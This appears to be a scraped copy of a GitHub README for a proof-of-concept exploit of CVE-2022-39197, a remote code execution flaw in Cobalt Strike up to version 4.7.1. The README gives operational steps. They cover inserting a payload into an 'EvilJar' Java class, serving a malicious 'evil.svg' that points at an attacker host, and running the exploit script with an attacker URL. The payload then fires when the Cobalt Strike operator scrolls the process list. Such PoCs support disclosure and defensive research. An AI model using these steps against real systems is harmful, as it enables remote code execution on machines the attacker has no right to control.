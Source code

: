 # CVE-2022-39197

CobaltStrike <= 4.7.1 RCE

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/its-arun](https://github.com/its-arun) |
| Url      | [https://github.com/its-arun/CVE-2022-39197](https://github.com/its-arun/CVE-2022-39197)                                               |
| Stars    | 315                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# **CVE-2022-39197 RCE POC**

### Usage

- **Prepare Payload**
1. Edit `Line 19` with your payload in `EvilJar/src/main/java/Exploit.java`
2. Build using jar `mvn clean compile assembly:single`
3. Move `EvilJar-1.0-jar-with-dependencies.jar` from `EvilJar/target/` to `serve/` folder
4. Edit `serve\evil.svg` replace `[attacker]` 
5. Serve using `python3 -m http.server 8080`

- **Execute Exploit**

```
python3 cve-2022-39197.py beacon.exe http://10.10.10.2:8080/evil.svg
```

Payload will be triggered as soon as the user scrolls through Process List

### POC.JPG?
![1.jpg](./images/1.jpg)


### Reference Links

[https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg](https://mp.weixin.qq.com/s/Eb0pQ-1ebLSKPUFC7zS6dg) — There’s a great in depth analysis of this vulnerability
[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)


## Get the content

```
git clone https://github.com/its-arun/CVE-2022-39197
cd CVE-2022-39197
```

{% embed url="https://github.com/its-arun/CVE-2022-39197" %}

<figure><img src="https://avatars.githubusercontent.com/u/20841421?v=4" alt=""><figcaption><p>its-arun</p></figcaption></figure>
